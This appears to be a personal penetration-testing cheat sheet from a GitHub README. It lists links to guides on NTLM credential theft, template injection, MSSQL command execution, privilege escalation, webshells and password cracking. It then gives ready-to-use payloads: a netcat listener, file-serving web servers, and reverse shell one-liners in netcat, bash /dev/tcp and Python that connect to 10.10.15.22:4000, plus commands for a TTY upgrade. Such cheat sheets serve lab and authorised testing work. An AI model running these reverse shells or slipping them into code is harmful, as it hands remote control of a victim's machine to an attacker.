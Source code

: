# Resources
A collection of links and payloads I stored for quick access
# LINKS
- [**NTLM Theft**](https://book.hacktricks.xyz/windows-hardening/ntlm/places-to-steal-ntlm-creds)
- [**Server SideTemplate Injection Payloads**](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)
- [**Jenkins Pentesting**](https://book.hacktricks.xyz/cloud-security/jenkins#code-execution)
- [**SecLists**](https://github.com/danielmiessler/SecLists)
- [**Payloads Of All Things**](https://github.com/swisskyrepo/PayloadsAllTheThings)
- [**MSSQL Pentesting**](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server)
- [**MSSQL Injection Cheatsheat**](https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)
- [**XP_cmdshell cheatsheat**](https://www.hackingarticles.in/mssql-for-pentester-command-execution-with-xp_cmdshell/)
- [**Impacket mssqlclient Reverse Shell**](https://rioasmara.com/2020/05/30/impacket-mssqlclient-reverse-shell/)
- [**Windows Local Privillage Escalation**](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#krbrelayup)
-  [**Juicy Potato Exploit**](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/juicypotato)
-  [**Pass The Hash**](https://www.netwrix.com/pass_the_hash_attack_explained.html)
-  [**HashCat Beginner Guide**](https://resources.infosecinstitute.com/topic/hashcat-tutorial-beginners/)
-  [**Hash Analyzer**](https://www.tunnelsup.com/hash-analyzer/)
-  [**Zip and rar Cracking with john**](https://dfir.science/2014/07/how-to-cracking-zip-and-rar-protected.html)
-  [**Reverse Shell Generator**](https://www.revshells.com/)
-  [**GTFO bins**](https://gtfobins.github.io/)
-  [**Webshells**](https://github.com/BlackArch/webshells)

# Payloads
## Local Webserver

### Python

```python
python -m SimpleHTTPServer
```

```python
python3 -m http.server
```

### PHP
```php
php -S 0.0.0.0:8000
```

## Shells

### Set Listener 
```bash
nc -lnvp 4000
```

### [Reverse Shell](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
#### netcat:
```bash
nc -e /bin/sh 10.10.15.22 4000
```

#### Bash
```bash
bash -i >& /dev/tcp/10.10.15.22/4000 0>&1
```
#### Python
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.15.22",4000));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
### Interactive Shell

#### Bash
```python
python(3) -c 'import pty; pty.spawn("/bin/bash")'
```
```cmd
Ctrl-Z
```
```cmd
stty raw -echo
```
```
fg
```
